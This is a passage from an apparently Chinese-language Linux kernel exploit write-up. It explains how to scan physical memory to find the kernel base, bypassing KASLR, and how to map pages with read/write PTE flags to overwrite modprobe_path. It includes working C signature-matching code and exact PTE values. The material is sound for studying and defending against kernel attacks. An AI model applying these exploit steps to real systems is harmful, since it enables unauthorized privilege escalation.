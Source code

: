 ```c
    // (rest of the exploit)
}
```

#### 5-1-3. 扫描物理内存

**目的**：设置好PUD和PMD后，就可以利用脏页目录：从用户态发起内核空间镜像攻击（KSMA）。现在我们可以将物理地址写入PTE条目中，然后在PMD区域中当作普通内存页来解引用。本节我们将先获取物理内核基址，并以可读/可写权限来访问`modprobe_path`内核变量。

##### （1）查找内核物理基地址

**分析**：用上述方法来绕过物理KASLR。假设物理内存有8G，则需要扫描的内存从8G降到2M的内存页，每个页只需读取约40字节（指纹）即可确定是否为内核基址，因此最坏情况下需读取 `512*40=20480`字节才能找到内核基址。

**方法**：为了确定某页是否为内核基址，作者编写了[`get-sig`](https://github.com/Notselwyn/get-sig)Python脚本，本质是比较特征字节，还可以扩展到其他内核（其他编译器和旧版内核）。

```c
// 通过比较签名来判断是否为内核基址
static int is_kernel_base(unsigned char *addr)
{
	// thanks python
	
	// get-sig kernel_runtime_1
	if (memcmp(addr + 0x0, "\x48\x8d\x25\x51\x3f", 5) == 0 &&
			memcmp(addr + 0x7, "\x48\x8d\x3d\xf2\xff\xff\xff", 7) == 0)
		return 1;

	// get-sig kernel_runtime_2
	if (memcmp(addr + 0x0, "\xfc\x0f\x01\x15", 4) == 0 &&
			memcmp(addr + 0x8, "\xb8\x10\x00\x00\x00\x8e\xd8\x8e\xc0\x8e\xd0\xbf", 12) == 0 &&
			memcmp(addr + 0x18, "\x89\xde\x8b\x0d", 4) == 0 &&
			memcmp(addr + 0x20, "\xc1\xe9\x02\xf3\xa5\xbc", 6) == 0 &&
			memcmp(addr + 0x2a, "\x0f\x20\xe0\x83\xc8\x20\x0f\x22\xe0\xb9\x80\x00\x00\xc0\x0f\x32\x0f\xba\xe8\x08\x0f\x30\xb8\x00", 24) == 0 &&
			memcmp(addr + 0x45, "\x0f\x22\xd8\xb8\x01\x00\x00\x80\x0f\x22\xc0\xea\x57\x00\x00", 15) == 0 &&
			memcmp(addr + 0x55, "\x08\x00\xb9\x01\x01\x00\xc0\xb8", 8) == 0 &&
			memcmp(addr + 0x61, "\x31\xd2\x0f\x30\xe8", 5) == 0 &&
			memcmp(addr + 0x6a, "\x48\xc7\xc6", 3) == 0 &&
			memcmp(addr + 0x71, "\x48\xc7\xc0\x80\x00\x00", 6) == 0 &&
			memcmp(addr + 0x78, "\xff\xe0", 2) == 0)
		return 1;


	return 0;
}
```

**扫描**：我们用可能是内核基页的512页来填充PTE页（和PMD页重叠）。如果扫描的页数超过512，只需将代码放入循环中并递增PFN（物理地址）。注意，如果物理内存是8G，就需要扫512页；若物理内存是4G，则需扫256页，因为`4GiB / CONFIG_PHYSICAL_START = 256`。

**PTE设置**：在设置PTE条目时，需设置`pte_area[j] = (CONFIG_PHYSICAL_START * j) | 0x8000000000000867;`，其中PFN - `CONFIG_PHYSICAL_START * j` 就是物理地址，`0x8000000000000867` flag标志表示对应页的读/写权限。
